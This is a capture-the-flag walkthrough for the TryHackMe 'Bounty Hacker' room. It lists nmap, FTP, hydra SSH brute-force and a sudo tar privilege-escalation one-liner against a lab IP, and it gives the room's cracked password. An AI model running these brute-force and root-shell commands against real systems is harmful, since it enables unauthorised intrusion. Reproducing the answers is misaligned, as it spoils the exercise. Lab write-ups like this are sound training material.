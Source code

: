 ![Bounty Hacker](https://i.imgur.com/rCDF5u6.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/cowboyhacker/Bounty_Hacker_Cover.png" alt="Bounty Hacker Logo">
</p>

# Bounty Hacker

This guide contains the answer and steps necessary to get to them for the [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) room.

### Living up to the title.

Commands:

nmap -sV 10.10.216.171 
ftp 10.10.216.171
get task.txt
cat task.txt
get locks.txt
cat locks.txt
hydra -l user -P locks.txt ssh://10.10.216.171:22 -t 4  
hydra -l lin -P locks.txt ssh://10.10.216.171:22 -t 4
ssh lin@10.10.216.171 
cat user.txt
susudo

RedDr4gonSynd1cat3

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names


   
3. Who wrote the task list? 
   
   
   
   ><details><summary>Click for answer</summary></details>

4. What service can you bruteforce with the text file found?
   
   
   
   ><details><summary>Click for answer</summary></details>

5. What is the users password? 
   
   
   
   ><details><summary>Click for answer</summary></details>

6. user.txt

   
   
   ><details><summary>Click for answer</summary></details>
   
7. root.txt

   
   
   ><details><summary>Click for answer</summary></details>
